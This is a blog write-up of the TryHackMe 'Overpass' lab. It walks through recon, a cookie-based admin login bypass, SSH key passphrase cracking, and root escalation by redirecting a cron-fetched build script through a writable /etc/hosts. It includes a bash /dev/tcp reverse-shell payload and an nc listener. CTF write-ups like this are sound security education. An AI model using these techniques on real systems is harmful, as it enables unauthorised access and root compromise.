+++
title = "Overpass - TryHackMe"
date = 2020-11-01T22:44:54+11:00
lastmod = 2020-11-01T22:44:54+11:00
tags = ["TryHackMe", "Escalation", "ROT47", "Web Authentication", "cron", "DNS", "hosts"]
categories = ["Boot2Root"]
imgs = []
cover = ""  # image show on top
readingTime = true  # show reading time after article date
toc = true
comments = true
justify = false  # text-align: justify;
single = true  # display as a single page, hide navigation on bottom, like as about page.
license = ""  # CC License
draft = false
+++

# Info

This is a room from [TryHackMe](https://tryhackme.com)

[https://tryhackme.com/room/overpass](https://tryhackme.com/room/overpass)

If you have any questing, or want to discuss anything with me, pelase leave a comment or contact me through methods listed in [About Page](/about)

# Recon

First, always port scan:

```bash
nmap -p- -v -T4 10.10.xx.xx
```



2 ports up.

On port 80 is a website:



There's a funny comment in index source:



Since they mentioned the Romans, I guess that would be caesar cipher or some kind of shifting cipher LOL.

On the *aboutus* page, it states that they store users' passwords encryted on their PC. Maybe that's where the cryptography mentioned in the comment come in?



On the *downloads* page, they seem to provide precompiled program for every major platform. And they seem very confident that they provided source code for download:



# A Bit of Code Review

Looking at the source code, the *military grade* cipher appears to be ROT47:



And the encrypted passwords seem to be saved at `~/.overpass`:



I downloaded the Linux binary of the software, and tried to save a creadential in it:



Then I pasted the file content to [cybecchef](http://icyberchef.com), that's what I've entered stored in JSON:



I also downloaded the `buildscript.sh` file from the Downloads page.



It outputs some logs to a file in root's home directory, which might turn out interesting.

# Foothold


Take a look at gobuster's result, the `/admin` route has not been seen so far from poking on the website, and is surely an intersting one told by its name.



Navigating to this route, I landed at a login page:



## SQL Injecting

A login form. Must try SQLi first:



But, nah. I didn't get in this easy:



I tried to copy out this request from Burp and saved it as `login-req.txt` and passed it to `sqlmap` see if miracle happens:



```bash
sqlmap -r login-req.txt 
```

But, nah again:



So I turned to investigating the source code of the page. 

## Frontend Inspection

There are 2 JS files on the `/admin` page that are not seen before, and the `login.js` file looks especially interesting:



Inside `login.js`, I saw this `login()` function:

```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

It looks that this code checks the response of POST `/api/login` request. As long as the response is exactly "Incorrect Credentials", it will prompt the user for unsuccessful login; Otherwise, it saves anything else as a cookie called "SessionToken", and then redirect back to `/admin`.

Anything else, huh? So what if we make some random thing as the value of "SessionToken"?

So I added this cookie with the developer tool of FireFox:



And refreshed the page. Voila!



I was preseted with a RSA private key, and the user's name seems to be *James*. It's also mentioned that this private key is passphrase protected, but should be easy to crack.

## Passphrase Cracking

So I saved this private key as `id_rsa_james`, and tried to crack the passphrase using JohnTheRipper:

```bash
ssh2john.py id_rsa_james > james.hash
john james.hash
```



Within several seconds, I was presented with a possible passphrase. Then I tested it by logging in with this private key:

```bash
chmod 600 id_rsa_james
ssh -i id_rsa_james james@10.10.xx.xx
```



Yay! It worked!!

# Escalation

Besides of looting the user flag, I also checked other files within james's home directory. Not to my surprise, there is a `.overpass` file:



Decoding that file with ROT47 gave me james's password on this machine. 

Also, there's a `todo.txt` file which might be interesting:



It mentions some *automated build script*, which reminded me of the build script file downloaded from the website. Could it be that it's run periodically by a cron job on this machine? Since it outputs to the `/root` directory, a good chance that it's run with root's permission, which might give us a path to escalate.

## Cron Job Inspection

So I uploaded [pspy](https://github.com/DominicBreuker/pspy) binary to the server:

```bash
scp -i id_rsa_james ~/opt/pspy/pspy64 james@10.10.xx.xx
```

And monitored the processes on that machine:



After running for a while, I found that every minute, a cron job will download the `buildscript.sh` file from the website and run it. Since this is the very machine on which the website is running, would it be possible that I can modify the file and run arbitary command as root?

So, firstly, I tried to locate the `buildscript.sh` file on this machine:

```bash
find / -name buildscript.sh 2>/dev/null
```

But couldn't find anything.

By inspecting the processes, I found the process that looks like the web server, which is run by user *tryhackme*. 

```bash
ps aux
```




So very likely the `buildscript.sh` file is also served from tryhackme's home directory. But unfortunately I can't access that directory as james:



## Permission Misconfig

Having another look at the command executed by cron, I noticed this:

```bash
curl overpass.thm/downloads/src/buildscript.sh 
```

The web server is accessed through a domain name `overpass.thm`. And this domain name is defined in `/etc/hosts`:



And I checked the permissions of `/etc/hosts`:



Hey! I can edit it!

So this means that I can point the domain name `overpass.thm` to my local machine, and serve a `buildscript.sh` file with arbitary command, which will be run by root on the target machine. And this means that I can gain a **root shell** on the target machine.

## Reverse Shell (root)

So I started a listener on my local machine:

```bash
nc -lvnp 8889
```

And prepared the directories and payload:

```bash
mkdir downloads
mkdir downloads/src
echo 'bash -i >& /dev/tcp/10.4.0.34/8889 0>&1' > downloads/src/buildscript.sh
```

and serve this file on my local machine:

```bash
sudo python3 -m http.server 80
```

On the target machine, I changed the `/etc/hosts` file to point the domain name `overpass.thm` to my local machine's IP address:



After waiting for a while, on the terminal I run the HTTP server, a log says that our payload is downloaded:



And a root shell is received on the terminal where I ran the listener:


